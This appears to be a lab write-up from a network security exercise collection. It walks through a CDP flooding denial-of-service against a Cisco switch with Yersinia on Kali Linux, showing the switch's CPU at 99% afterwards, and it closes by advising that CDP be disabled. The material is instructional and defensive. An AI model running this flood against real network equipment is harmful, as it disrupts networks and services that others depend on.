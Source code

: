 ```yaml
---
title: CDP flooding
---
```


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    ![Success](./assets/yersinia.png)

    Select Launch attack -> flooding CDP table

    ![Success](./assets/attack.png)

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
    6. Conclusion
    
    It is recommended to disable CDP whenever possible.